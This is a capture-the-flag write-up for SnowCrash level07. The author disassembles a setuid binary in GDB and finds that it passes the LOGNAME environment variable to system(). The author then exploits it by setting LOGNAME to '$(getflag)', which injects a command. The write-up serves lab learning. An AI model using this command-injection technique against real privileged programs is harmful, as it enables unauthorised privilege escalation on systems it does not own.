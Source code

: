 #SnowCrash Level07

We have a binary in our home directory.
Tried to run it :
```
level07@SnowCrash:~$ ./level07
level07
```

I was like maybe it prints its name, I tried to copy it in /tmp and rename it.
But no luck.

GDB TIME...
```
	[...]
	0x0804855b <+71>:	mov    eax,DWORD PTR [esp+0x1c]
   	0x0804855f <+75>:	mov    DWORD PTR [esp],eax
  	0x08048562 <+78>:	call   0x80483d0 <setresuid@plt>
   	0x08048567 <+83>:	mov    DWORD PTR [esp+0x14],0x0
   	0x0804856f <+91>:	mov    DWORD PTR [esp],0x8048680
   	0x08048576 <+98>:	call   0x8048400 <getenv@plt>
   	0x0804857b <+103>:	mov    DWORD PTR [esp+0x8],eax
   	0x0804857f <+107>:	mov    DWORD PTR [esp+0x4],0x8048688
   	0x08048587 <+115>:	lea    eax,[esp+0x14]
   	0x0804858b <+119>:	mov    DWORD PTR [esp],eax
   	0x0804858e <+122>:	call   0x8048440 <asprintf@plt>
   	0x08048593 <+127>:	mov    eax,DWORD PTR [esp+0x14]
   	0x08048597 <+131>:	mov    DWORD PTR [esp],eax
   	0x0804859a <+134>:	call   0x8048410 <system@plt>
	[...]
```

There's a getenv function call + sprintf... lets see what was that getenv.
```
(gdb) x/s 0x8048680
0x8048680:	 "LOGNAME"
```

Okey so the argument that getenv takes was LOGNAME.
Doing a simple env :
```
	[...]
	LOGNAME=level07
	[...]
```

Let's change it to getflag...
```
level07@SnowCrash:~$ export 'LOGNAME=$(getflag)'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : 
```

